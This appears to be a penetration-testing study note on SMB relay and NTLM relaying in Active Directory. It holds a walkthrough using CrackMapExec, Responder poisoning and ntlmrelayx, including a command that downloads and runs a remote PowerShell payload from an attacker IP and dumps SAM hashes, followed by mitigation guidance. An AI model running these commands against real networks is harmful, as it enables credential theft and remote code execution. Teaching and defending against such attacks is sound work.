

# 72.05 - SMB Relay Attacks and NTLM Relaying

## Executive Summary
Server Message Block (SMB) Relay attacks are among the most devastating and frequently exploited vulnerabilities in Active Directory environments. By exploiting the challenge-response mechanism of NTLM authentication and the lack of default SMB signing on internal networks, an attacker can intercept authentication requests from a victim and seamlessly relay them to a target machine. If the victim has administrative privileges on the target, the attacker gains instant Remote Code Execution (RCE) without ever needing to crack a password or know the plaintext credentials.

## Deep Dive: NTLM Challenge-Response Architecture
To comprehend SMB Relaying, one must understand how NTLM authentication functions over the network. It is a three-step process:

1. **Negotiate:** The client attempts to access an SMB share and sends a Negotiate message to the server, indicating it wants to authenticate.
2. **Challenge:** The server generates a random 16-byte number known as the "Challenge" and sends it back to the client.
3. **Response:** The client encrypts the server's Challenge using the hash of the user's password (the NT hash). This encrypted challenge is the "Response". The client sends this Response, along with their username, back to the server. The server (or Domain Controller) validates the response. If it matches, authentication is granted.

### Wireshark Packet Analysis: NTLMSSP Challenge
```text
SMB2 (Server Message Block Protocol version 2)
    SMB2 Header
        Command: Session Setup (1)
        Status: STATUS_MORE_PROCESSING_REQUIRED (0xc0000016)
    Session Setup Response (0x01)
        Security Blob: NTLMSSP_CHALLENGE
            NTLMSSP Identifier: NTLMSSP
            NTLM Message Type: NTLMSSP_CHALLENGE (0x00000002)
            Target Name: DOMAIN
            NTLM Server Challenge: 1234567890abcdef
            Target Info: ...
```

## The Core Vulnerability: Lack of SMB Signing
The NTLM protocol authenticates the *user*, but without additional protections, it does not guarantee the integrity of the *session*. 
The fatal flaw is the absence of **SMB Signing**.
- SMB Signing cryptographically ties the authentication process to the specific session.
- By default in Windows domains, SMB Signing is **Required** on Domain Controllers, but only **Enabled (not required)** on workstations and member servers.
- Because it is not strictly required, an attacker can intercept the NTLM exchange and forward the Challenge and Response between the victim and a target, successfully authenticating as the victim on the target machine.

## Architecture & Attack Flow Diagram



## Step-by-Step Exploitation Walkthrough

A successful SMB relay attack requires two components: a mechanism to coerce authentication (forcing a victim to connect to the attacker) and the relay server itself.

### Step 1: Identifying Targets
The attacker must find target machines where SMB signing is disabled (which is usually all workstations and non-DC servers).
```bash
# Using CrackMapExec to find viable targets
crackmapexec smb 192.168.1.0/24 --gen-relay-list targets.txt
```
The resulting `targets.txt` will contain IP addresses of machines where SMB signing is `False`.

### Step 2: Configuring the Relay Server
The attacker uses a tool like `ntlmrelayx.py` (from Impacket) to set up the relay listener. The tool will take the captured hashes and throw them at the IP addresses in the `targets.txt` file.

```bash
# Start ntlmrelayx. It will attempt to dump the SAM database upon successful relay.
ntlmrelayx.py -tf targets.txt -smb2support
```
Alternatively, an attacker can specify a command to execute upon successful relay:
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.66/payload.ps1')"
```

### Step 3: Coercing Authentication
The attacker must force a high-privileged victim to authenticate to the attacker's machine. This is typically done via Protocol Poisoning using tools like **Responder**.

Responder listens for LLMNR, NBT-NS, or MDNS broadcast requests. When a user mistypes a server name (e.g., `\\fileservr`), the DNS query fails, and the Windows machine broadcasts an LLMNR request asking the local network, "Who is fileservr?".

Responder answers this broadcast: "I am fileservr! Authenticate to me!"
```bash
# Start Responder, but disable its internal SMB and HTTP servers
# so ntlmrelayx can use those ports.
nano /etc/responder/Responder.conf
# Set SMB = Off and HTTP = Off

# Run Responder
python3 Responder.py -I eth0 -r -d -w
```

### Step 4: Execution
1. Victim mistypes a share name or is coerced via a malicious email/link.
2. Responder answers the broadcast and tells the victim to connect to the attacker's IP.
3. The victim's machine transparently attempts to authenticate to the attacker via SMB.
4. `ntlmrelayx` intercepts this authentication attempt.
5. `ntlmrelayx` selects an IP from `targets.txt` and forwards the authentication.
6. The target server accepts the authentication.
7. `ntlmrelayx` executes the requested payload (e.g., dumping the local SAM database) and outputs the local administrator hashes to the attacker's console.

## Mitigation and Defense Strategies

### 1. Require SMB Signing
The ultimate fix for SMB Relaying is to enforce SMB Signing globally across the domain via Group Policy.
- **Path:** Computer Configuration -> Policies -> Windows Settings -> Security Settings -> Local Policies -> Security Options
- **Setting:** `Microsoft network client: Digitally sign communications (always)` -> Enabled
- **Setting:** `Microsoft network server: Digitally sign communications (always)` -> Enabled
*Warning: Enabling this can cause performance overhead on high-throughput file servers and may break compatibility with legacy devices (e.g., old scanners).*

### 2. Disable LLMNR and NBT-NS
To prevent the initial poisoning attack that coerces authentication, legacy broadcast protocols should be disabled via GPO.
- Disable LLMNR in Group Policy.
- Disable NetBIOS over TCP/IP in the DHCP scope options.

### 3. Tiered Administration Model (Tier 0, Tier 1, Tier 2)
Implement Microsoft's Tiered Admin model. Domain Admins (Tier 0) should never log into workstations (Tier 2). If a Domain Admin only authenticates to Domain Controllers (where SMB signing is enforced by default), their credentials cannot be relayed to compromise lower-tier assets.

### 4. Enable EPA (Extended Protection for Authentication)
For services that rely on HTTP/HTTPS (like Exchange or AD CS), enabling EPA ensures that the TLS channel is cryptographically bound to the authentication session, mitigating cross-protocol NTLM relaying (e.g., SMB to HTTP).

## Chaining Opportunities
- [[Active Directory Certificate Services Abuse]] - NTLM can be relayed from SMB to the HTTP endpoint of the AD CS Web Enrollment interface to instantly generate a domain admin certificate (ESC8).
- [[01 - ARP Spoofing and Man-in-the-Middle Attacks]] - Can be used to intercept SMB traffic directly instead of relying on LLMNR poisoning.
- [[IPv6 DNS Takeover via mitm6]] - Often used to reliably coerce authentication in environments where LLMNR/NBT-NS is disabled.

## Related Notes
- [[Windows Authentication Protocols (NTLM vs Kerberos)]]
- [[LLMNR and NBT-NS Poisoning]]
- [[Pass the Hash Attacks]]
